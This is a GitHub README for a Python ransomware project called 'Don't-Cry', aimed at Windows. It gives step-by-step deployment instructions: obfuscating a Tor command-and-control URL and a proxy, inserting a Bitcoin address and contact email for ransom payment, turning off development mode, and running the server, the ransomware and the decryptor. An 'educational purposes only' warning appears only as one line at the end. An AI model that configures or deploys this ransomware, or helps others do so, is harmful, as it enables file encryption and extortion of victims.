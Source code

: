 # Don't-Cry Ransomware
![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python\&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python\&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat\&logo=open-source-initiative\&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)
![DCry](./DCRY.png)
Ransomware written in Python 💀💀💀
## Usage
* Open the [`DCry.py`](./src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  
  Example:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` with your actual email address string.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```bash
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Run the server with the following command:
  ```bash
  python src/server.py
  ```
* Run the ransomware with the following command:
  ```bash
  python src/DCRY.py
  ```
* Run the decryptor with the following command:
  ```bash
  python src/decryptor.py
  ```
## Warning
> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.
## License
* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).
